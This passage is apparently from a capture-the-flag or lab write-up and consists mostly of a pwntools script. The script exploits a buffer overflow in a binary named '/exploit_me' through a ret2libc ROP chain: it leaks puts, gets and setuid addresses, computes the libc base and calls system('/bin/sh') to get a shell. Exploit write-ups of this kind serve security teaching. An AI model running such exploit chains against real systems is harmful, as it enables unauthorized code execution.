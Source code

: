 ```python
payload = padding
payload += pop_rdi_ret_address + got_puts_address + plt_puts_address
payload += pop_rdi_ret_address + got_gets_address + plt_puts_address
payload += pop_rdi_ret_address + got_setuid_address + plt_puts_address
payload += main_address

p = ssh_connection.process("/exploit_me")
p.recvline()
p.sendline(payload)
output = p.recv().split(b"\n")

puts_address = u64(output[0].ljust(8, b"\x00"))
gets_address = u64(output[1].ljust(8, b"\x00"))
setuid_address = u64(output[2].ljust(8, b"\x00"))

print(f"Puts address: {hex(puts_address)}")
print(f"Gets address: {hex(gets_address)}")
print(f"Setuid address: {hex(setuid_address)}")

libc = ELF("./libc6_2.23-0ubuntu11.3_amd64.so", checksec=False)
libc.address = puts_address - libc.sym["puts"]
print(f"libc Base address: {hex(libc.address)}")

bin_sh_address = p64(next(libc.search(b"/bin/sh")))
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
alignment_issue_ret_address = p64(_ROP.find_gadget(["ret"])[0])
system_address = p64(libc.symbols.system)

payload = padding
payload += alignment_issue_ret_address
payload += pop_rdi_ret_address
payload += bin_sh_address
payload += system_address

p.sendline(payload)
p.interactive()
```

We get the following:


![Pasted image 20250328191503.png](../../IMAGES/Pasted%20image%2020250328191503.png)
